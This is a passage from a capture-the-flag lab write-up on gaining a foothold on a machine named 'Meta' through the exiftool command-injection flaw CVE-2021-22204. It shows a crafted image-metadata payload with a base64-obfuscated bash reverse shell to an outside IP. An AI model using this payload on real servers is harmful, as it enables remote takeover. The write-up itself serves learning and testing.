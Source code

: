 
# Foothold

There are various vectors of attack tat we can try:

- command injection?
- php may be interpreted if we inject code in the metadata?
- php library to extract metadata vulnerable?
- exiftool searchexploit?

It seems it is vulnerable to a CVE for exiftool → CVE-2021-22204

![Untitled](Meta%203c36fefecf464a5d827cec5be8c89ef4/Untitled%202.png)

Following the indications this blog [https://ine.com/blog/exiftool-command-injection-cve-2021-22204](https://ine.com/blog/exiftool-command-injection-cve-2021-22204) we can craft a malicous image that contains metadata taht will be executed by the server.

### Gaining a reverse shell

- create payload

```bash
┌──(kali㉿kali)-[~/machines/linux/meta/exploit]
└─$ cat payload              
(metadata "\c${system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0MyAwPiYxCg== | base64 -d | bash')};")
```

